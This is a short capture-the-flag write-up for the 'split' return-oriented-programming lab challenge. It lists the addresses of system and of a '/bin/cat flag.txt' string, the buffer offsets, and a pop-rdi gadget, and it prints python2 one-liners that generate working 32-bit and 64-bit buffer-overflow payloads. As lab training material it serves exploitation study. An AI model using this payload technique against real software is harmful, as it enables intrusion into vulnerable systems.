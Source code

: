 # Contents
- Task Description
- 32 bit
- 64 bit

## Task Description
The elements that allowed you to complete ret2win are still present, they've just been split apart.  
Find them and recombine them using a short ROP chain.

## 32 bit
File Checks
32 bit ELF with no canaries
To get the flag we need to create a chain where it first calls system and then /bin/cat flag.txt
/bin/cat flag.txt has a memory addr of 0x804a030
and for the system call it is 0x0804861a
The buffer size is 44 bytes

Generate the payload
```bash
python2 -c 'print "A"*44 +"\x1a\x86\x04\x08"+"\x30\xa0\x04\x08"' > payload
```

Then pass it in and get the flag
```flag
ROPE{a_placeholder_32byte_flag!}
```

## 64 bit
File checks
64 bit lsb
Find the sys call : 0x000000000040074b
Find cat call        : 0x0000000000601060
Find the buffer -> 40
For 64 bit instead of passing in things form the stack they need to be in the RDI
rop gadget         : 0x00000000004007c3

payload order is gadget bincat syscall
generate payload
```shell
python2 -c 'print "A"*40 +"\xc3\x07\x40\x00\x00\x00\x00\x00"+"\x60\x10\x60\x00\x00\x00\x00\x00"+"\x4b\x07\x40\x00\x00\x00\x00\x00"'>split64-payload
```

---
Creation date: 11-10-2022

Last modified date: Tuesday 25th October 2022
***
